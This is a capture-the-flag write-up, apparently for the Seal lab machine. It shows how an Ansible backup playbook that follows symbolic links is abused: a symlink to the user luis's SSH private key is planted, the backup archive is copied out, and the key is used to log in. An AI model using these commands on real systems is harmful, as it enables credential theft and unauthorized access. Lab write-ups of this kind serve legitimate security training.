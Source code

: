 # user 2

## /etc/passwd

![](seal.htb-14.png)
- an account called luis is able to login, this must be the user account to target

## backup process

![](seal.htb-15.png)
- directory /opt/backups has 2 folders; <span class="myTurquoise">archives</span> and <span class="myTangerine">playbook</span>
- <span class="myTurquoise">archives</span> has backup files created every minute

````bash
cat run.yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/

````


- <span class="myTangerine">playbook</span> has a .yml file containing information about how the backups are executed. 
- Symbolic links are allowed and followed in the backups meaning that any symbolic links will cause those linked files to be copied directly.

````bash
cd /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
ln -s /home/luis/.ssh/id_rsa luis_id_rsa
cd /opt
cd backups
cd archives
cp backup-2021-08-07-23:37:32.gz /dev/shm
````

![](seal.htb-17.png)
- The symbolic link to private key is created.
- private copied along with other backups

![](seal.htb-18.png)
- to make the .gz easier to work with, the file is encoded in base64 and copied over to Kali

![](seal.htb-19.gif)
- The file is transferred and extracted

![](seal.htb-20.gif)
- Once extracted, the key is used to login